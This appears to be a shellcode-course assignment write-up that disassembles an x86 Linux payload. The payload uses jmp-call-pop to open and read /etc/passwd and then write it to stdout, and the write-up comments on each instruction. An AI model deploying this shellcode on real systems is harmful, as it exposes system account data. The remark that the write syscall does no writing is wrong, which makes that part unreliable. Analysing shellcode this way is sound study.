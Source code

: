 # Solution

If we dump the nasm code from the payload, here is what we can see:

    00000000  EB36              jmp short 0x38
    00000002  B805000000        mov eax,0x5
    00000007  5B                pop ebx
    00000008  31C9              xor ecx,ecx
    0000000A  CD80              int 0x80
    0000000C  89C3              mov ebx,eax
    0000000E  B803000000        mov eax,0x3
    00000013  89E7              mov edi,esp
    00000015  89F9              mov ecx,edi
    00000017  BA00100000        mov edx,0x1000
    0000001C  CD80              int 0x80
    0000001E  89C2              mov edx,eax
    00000020  B804000000        mov eax,0x4
    00000025  BB01000000        mov ebx,0x1
    0000002A  CD80              int 0x80
    0000002C  B801000000        mov eax,0x1
    00000031  BB00000000        mov ebx,0x0
    00000036  CD80              int 0x80
    00000038  E8C5FFFFFF        call 0x2
    0000003D  2F                das
    0000003E  657463            gs jz 0xa4
    00000041  2F                das
    00000042  7061              jo 0xa5
    00000044  7373              jnc 0xb9
    00000046  7764              ja 0xac
    00000048  00                db 0x00

Let's analyze the content of this step by step.

   1) 00000000  EB36              jmp short 0x38 ; Jump to 0x38 

   2) 00000038  E8C5FFFFFF        call 0x2 ; Execute 0x2

   3)  00000002  B805000000        mov eax,0x5 ; 5 is set to EAX <=> Syscall, function open selected

       00000007  5B                pop ebx ; The content of the top of the stack is set to ebx, 
                                            ; in this case, /etc/passwd).
    
![alt text](https://github.com/MrSquid25/SLAE/blob/master/Assignment%205/read_file/pop_ebx.PNG "Pop Ebx")

   00000008  31C9              xor ecx,ecx ; Clearing out ecx, now is 0
       
   0000000A  CD80              int 0x80 ; int open(const char *pathname, int flags); open(/etc/passwd, 0) 
   
   where EAX is 5=OPEN, EBX is etc/passwd=PATH and ECX is 0=FLAGS
   
   0000000C  89C3              mov ebx,eax ; Eax is set to ebx
   
   0000000E  B803000000        mov eax,0x3  ; Eax is set to 3 <=> Syscall, function read selected
   
   00000013  89E7              mov edi,esp ; Top of stack set to edi;
   
   00000015  89F9              mov ecx,edi ; Edi set to ecx;
   
   00000017  BA00100000        mov edx,0x1000 ; Edx set to 4096 (decimal)
   
   0000001C  CD80              int 0x80 Read function executed --> ssize_t read(int fd, void *buf, size_t count);
   
   EAX=3=READ,EBX=3=FD, ECX=EDI=BUF, EDX=4096=COUNT
   
   0000001E  89C2              mov edx,eax ; EDX set to EAX
   
   00000020  B804000000        mov eax,0x4 ; Eax to 4 <=> Syscall, function write
   
   00000025  BB01000000        mov ebx,0x1 ; Ebx=1
   
   0000002A  CD80              int 0x80 ; ssize_t write(int fd, const void *buf, size_t count);
 
   ; In this case, the function called is not executed as a write, is just called but no writing is done.
 
   0000002C  B801000000        mov eax,0x1 ; Exit called
   
   00000031  BB00000000        mov ebx,0x0
   
   00000036  CD80              int 0x80 ; Execution of exit 
   
